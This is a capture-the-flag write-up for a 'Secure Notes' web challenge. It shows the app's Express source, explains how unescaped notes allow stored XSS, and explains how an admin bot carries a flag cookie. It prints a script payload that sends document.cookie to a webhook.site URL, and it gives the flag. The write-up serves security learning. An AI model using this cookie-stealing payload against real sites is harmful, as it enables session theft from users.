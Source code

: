 # UM6P_Quals

## ChallengeName: Secure Notes



<strong>challenge discription</strong>

<img src='./assets/1.png' style="max-width:50%">



<h3>visiting the challenge on browser</h3>

<img src='./assets/2.png' style="max-width:50%">

<h3>Let's check the source code</h3>

<h3>In this indpoint it takes a note without any filtration saving it and return the note link</h3>

```javascript
app.post('/save', (req, res) => {
    if (Object.keys(notes).length > 100)
        notes = {}
    text = req.body.text;
    if (text.length > 1000)
        res.send('Note too long!');
    else {
        uid = uuidv4();
        notes[uid] = text;
        res.send(`note saved successfully, <a href=/notes/${uid}>link</a>.`);
    }
});
```

<h3>The note link was taking us to an indpoint <strong>/notes/[uid]</strong></h3>
<h3>Let's check the indpoint</h3>

```javascript
app.get('/notes/:uid', (req, res) => {
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;
  
    if (uidPattern.test(uid)) {
        if (uid in notes) {
            html = `
            <table>
              <thead>
                <tr>
                  <th>UID</th>
                  <th>Note</th>
                  <th>Actions</th>
                </tr>
              </thead>
              <tbody>
                <tr>
                  <td>${uid}</td>
                  <td>${notes[uid]}</td>
                  <td>
                    <button onclick="fetch('/report/${uid}').then(response => response.text()).then(data => alert(data)).catch(error => alert(error));">share with admin</button>
                  </td>
                </tr>
              </tbody>
            </table>
          `;
          res.send(html);
        } else {
            res.send('Note not found.');
        }
    } else {
        res.send('Invalid UID.');
    }
});
```

<h3>
So it only print our note without any filteration<br/>
Hmm Let's try some <strong>XSS</strong>
</h3>

<br/>
<img src='./assets/3.png' style="max-width:50%">
<br/>
<br/>

<h3>Let's save the Note and visite the click on the link</h3>
<br/>

<img src='./assets/4.png' style="max-width:50%">

<h3>It works and there's also a button <strong>share with admin</strong></h3>

<img src='./assets/5.png' style="max-width:50%">

<h3>
Let's check the source code again to see how <strong>/report</strong> indpoint works 
</h3>

```javascript
app.get('/report/:uid', (req, res) => {
    if (reports.length > 100)
        reports = []
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;

    if (uidPattern.test(uid))
    {
        if (reports.indexOf(uid) != -1)
            res.send("this note has already been shared with admin!");
        else
        {
            reportNote(`/notes/${uid}`);
            reports.push(uid);
            res.send("note has been sent to the admin!");
        }
    }
});
```
<h3>It's doing simple checks and then sends the url to a <strong>reportNote</strong> function<br/>So let's check that</h3>

```javascript
FLAG = process.env.FLAG || "akasec{ssss}"

async function reportNote(url) {
    try {
        const browser = await puppeteer.launch({ executablePath: '/usr/bin/google-chrome', headless: "new", args: ['--no-sandbox', '--disable-setuid-sandbox'] });
        const page = await browser.newPage();
  
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost:3000'
        });
        await page.goto(`http://localhost:3000`);
        await page.evaluate((url) => {
            location.href = url;
        }, url);
        await new Promise(resolve => setTimeout(resolve, 5000));
        await browser.close();
    } catch (err) {
        console.log("?:", err);
    }
}
```
<h3>It user <strong>puppeteer</strong>.<br/>
<strong>Puppeteer</strong> is a Node. js library developed by Google that lets you control headless Chrome through the DevTools Protocol.<br/><br/>
Let's break this down to see what this doing exactly<br/>
It set's a <strong>cookie</strong> flag and its value is our flag that is loaded from the <strong>env</strong><br/>
and then visits the url passed passed as argument which is the our Note url<br/>
</h3>



<h3>So we can pass a payload to read the <strong>cookie</strong> and send it to us using http request.</h3>
<h3>First I let's open a <strong>webhook</strong>  that will start listning on our request</h3>

<img src='./assets/6.png' style="max-width:50%">

<h3>let's put our payload in a note and <strong>report it to admin</strong></h3>


```javascript
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
// Full payload will be like this
<script>
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
</script>
```
<img src='./assets/7.png' style="max-width:50%">
<br/>
<h3>Save the note and visit it's link you should reseve first post<br/>request in your webhook when the xss executed in your client-side</h3>
<br/>
<img src='./assets/8.png' style="max-width:50%">
<br/>
<br/>
<img src='./assets/9.png' style="max-width:50%">


<h3>Now let's make admin visit the note by clicking on <strong>share with admin</strong> button</h3>


<img src='./assets/10.png' style="max-width:50%">
<h3>and as you can see we recieved our flag</h3>
<hr/>
<h2>The flag <strong>AKASEC{GooD_0LD_BX55}</strong></h2>